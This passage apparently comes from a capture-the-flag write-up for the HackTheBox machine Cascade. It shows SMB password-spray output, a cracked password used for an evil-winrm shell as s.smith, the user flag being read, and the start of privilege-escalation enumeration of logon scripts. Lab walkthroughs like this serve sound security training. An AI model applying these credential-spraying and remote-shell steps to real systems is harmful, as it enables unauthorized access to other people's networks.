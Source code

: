 ```
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\b.hanson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\d.burman:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.allen:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\i.croft:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:sT333ve2 STATUS_LOGON_FAILURE
```

The user `s.smith` uses this password.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'          
 
Evil-WinRM shell v3.5
 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ..
*Evil-WinRM* PS C:\Users\s.smith> cd Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
adbb273db0****************
```

Got the user flag.

### `Privilege Escalation`

###### `Identify LogOn Scripts`
First Let's see if there are any LogOn Scripts using `net user` command
```
*Evil-WinRM* PS C:\ProgramData\temp> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 7:58:05 PM
Password expires             Never
Password changeable          1/28/2020 7:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/28/2020 11:26:39 PM
Logon hours allowed          All
Local Group Memberships      *Audit Share          *IT 
							 *Remote Management Use
```